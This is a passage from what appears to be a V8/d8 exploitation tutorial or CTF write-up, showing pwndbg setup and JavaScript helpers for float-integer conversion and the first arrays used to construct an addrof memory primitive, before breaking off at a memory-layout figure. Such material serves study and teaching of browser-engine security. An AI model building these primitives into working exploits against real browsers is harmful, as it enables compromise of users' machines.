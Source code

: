 first setting up our debugging environment in gdb:

```bash
pwndbg> file d8
Reading symbols from d8...
(No debugging symbols found in d8)
pwndbg> set args --allow-natives-syntax --shell tmp.js
```

then let's start off by defining our helper function, objects, and arrays:

```javascript
/// Helper functions to convert between float and integer primitives
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

// d8 only
function dp(x){ %DebugPrint(x); }
function bp() { %SystemBreak(); }

function ftoi(val) { // typeof(val) = float
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Watch for little endianness
}

function itof(val) { // typeof(val) = BigInt
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

/// Construct addrof primitive
var float_arr = [1.1, 1.2, 1.3, 1.4];
var obj = {"A":1};
var obj_arr = [obj, obj];
```

through debug printing and examining the memory I found out we end up with this memory layout:

<figure><img src="../../.gitbook/assets/image (7).png" alt="" width="344"><figcaption></figcaption></figure>
